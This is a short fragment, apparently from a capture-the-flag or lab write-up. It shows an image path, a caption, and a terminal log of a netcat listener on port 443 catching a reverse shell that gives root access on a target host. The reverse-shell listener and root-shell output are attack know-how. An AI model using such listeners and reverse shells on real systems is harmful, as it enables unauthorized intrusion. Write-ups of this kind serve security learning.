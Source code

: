 It hangs processing my hooks, and there’s a shell at `nc`:

```

oxdf@hacky$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.43 50410
[root@blockblock /]# 

```